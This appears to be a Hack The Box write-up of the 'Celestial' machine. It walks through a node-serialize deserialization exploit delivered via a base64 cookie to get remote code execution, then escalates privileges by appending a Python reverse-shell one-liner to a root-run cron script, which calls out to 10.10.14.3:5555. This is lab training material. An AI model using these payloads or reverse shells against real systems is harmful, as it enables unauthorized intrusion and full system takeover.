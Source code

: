 ```yaml
---
layout: PostSimple
date: 
title:     "Hack The Box - Celestial"
tags: ['linux','medium','node','serialize','cron']
layout: post
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/1.png)

We are going to pwn Celestial by 3ndG4me from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/130>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only One port Available and it is a Node.js Express framework so let's check the webpage of it.

## HTTP:

It displayes a message and nothing else.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/2.png)

Since it is ``Node.js`` framework, Capture the webpage request in burp and check for interesting things.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/3.png)
There is  ``Profile`` cookie in request header and its seems like Base64 encoded, and the Cookie start with ``eyJ`` it is JSON Web Token. 

It is Base64 encoded cookie this information is displayed in response header.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/4.png)

Since it is Base64 encoded cookie, why dont we change it and encode it with base64 and pass it as cookie.<br/>

I changed the ``"num":"2"`` to ``"num":"3"`` and encoded it with base64.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/5.png)
Now I copied that base64 encoded cookie and pass it to the Request Header Cookie.<br/>

The Output Now changes to ``Hey Dummy 3 + 3 is 33`` so If we change the ``num`` in the cookie, it changes in the response. This is because of a module called [node-serialize](https://www.npmjs.com/package/node-serialize)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/5.1.png)

I searched for NodeJs Serialize exploits and found this link.
><https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>

According to the article, the data we send as a cookie value was passed into the ``unserialize()`` function which unserialize the serialized format code and execute it accordingly. Since Node.js and plenty of other languages rely on the serializtion of the objects, the main issue lies in the parsing of this data whether they contain any malicious code or not. Taking advantage of this, we can generate a payload and due to which try to execute something that can help us in futher exploitation. Once payload created, we can pass it as a cookie value, which then passed into `unserialize`, hence deserialization of the our payload will execute the code.

## Payload Generation:

I started with [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create our reverse shell with Our machine IP.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/6.png)

We need to generate the serialize payload by using ``log.js``<br/>

``log.js``
```
var y = {
 rce : function(){}
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Before doing this make you sure you need to do this.
```
apt install nodejs
apt install npm
npm install node-serialize
```

Copy the payload we got from the python script and paste that in ``function(){PAYLOAD}`` and execute it.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/7.png)

Now we got Serialized payload, Copy the payload and encode as Base64, don't forgot to add brackets ``()`` after the function body.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/8.png)

## Gaining Shell:

Paste the encoded Base64 in ``Cookie : Profile=``, send the request and start the listener.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/9.png)
Got the shell as user ``sun``. You can get the user Flag in ``/Documents``.


## Privilege Escalation:

Uploaded ``pspy`` to the box to check any process running in the background.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/10.png)
There is a python script in ``/Document/script.py`` which is running as root. We have write permission on the file too. So I upload python reverese shell.

```
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> script.py
```
Started my listener and I got Root!!<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/11.png)


